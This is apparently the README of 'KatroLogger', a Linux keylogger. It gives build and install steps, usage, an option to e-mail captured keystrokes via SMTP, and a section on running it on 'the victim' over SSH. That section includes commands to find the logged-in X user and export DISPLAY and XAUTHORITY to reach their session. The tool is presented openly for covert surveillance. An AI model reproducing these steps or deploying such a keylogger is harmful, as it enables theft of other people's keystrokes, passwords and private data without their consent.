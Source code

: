 # KatroLogger
KeyLogger for Linux Systems.

- **Dependencies**
  - curl
  - libx11-dev (Debian-Based)
  - libX11-devel (RHEL-Based)

- **Compiling**
```
./configure
make
make install
```
- **Usage**
```
katrologger --output /path/file
```
Send data by e-mail:
```
katrologger --smtp-help
```
- **Fixing problems accessing via SSH**
> when connecting to the victim remotely via ssh it will be necessary to export environment variables to run the keylogger.

For hosts without GUI:
```
# export GPG_TTY=$(tty)
```
For hosts with xorg running:
> identifying logged in user
```
# user=$(who | grep "(:0)" | awk '{print $1}')
# echo $user
```
> Exporting variables
```
# export DISPLAY=:0.0
# export XAUTHORITY=/home/$user/.Xauthority
```
- **Uninstall**
```
make uninstall
```
